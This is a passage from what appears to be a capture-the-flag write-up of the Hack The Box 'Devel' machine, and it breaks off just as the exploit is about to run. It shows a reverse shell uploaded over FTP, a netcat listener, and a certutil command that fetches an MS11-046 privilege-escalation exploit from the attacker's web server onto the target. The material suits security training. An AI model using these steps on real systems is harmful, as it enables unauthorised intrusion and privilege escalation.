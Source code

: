 03-17-17  05:37PM                  689 iisstart.htm
05-15-23  04:53PM                   16 test.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Reverse shell successfully uploaded hehe. The next thing to do is to access it from the webpage.

Ensure you set up your netcat listener ```nc -lvnp 4443``` before accessing the reverse shell from the webpage.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5b37a08f-aa79-4356-9a17-b517ebedd9f1)

Now, lets access the reverse shell

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/99496086-9f7f-4f3c-9919-00a43002c868)

Checking our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/559cbb72-c446-4545-981a-dc8059f0dc22)

cool, we got a shell. Now lets escalate our privileges.




# Privilege Escalation

Using the command ```systeminfo``` I found something interesting

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b4623a11-c08c-40a0-ae16-704ea884a066)

Lets look for an exploit for this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9597ec4e-35dc-4416-bfd9-53792f0c2c37)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/41a5dfd9-1d93-49c1-8ea4-6b8c01312e0a)

We'll be downloading executable, you can download the executable [here](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe)

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Devel]
└─$ ls
40564.c  abeg.aspx  Devel  MS11-046.exe
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Devel]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Now that we've downloaded this, we'll be sending it over to the target's machine.

To receive the file on the target's machine ensure you are in the ```Temp``` directory ```cd c:\Windows\Temp```

command:```certutil -urlcache -f http://10.10.14.31/MS11-046.exe abeg.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/83b7c9b7-e4e1-4e1e-bec3-e7e54bef6865)

cool, lets try to run it
```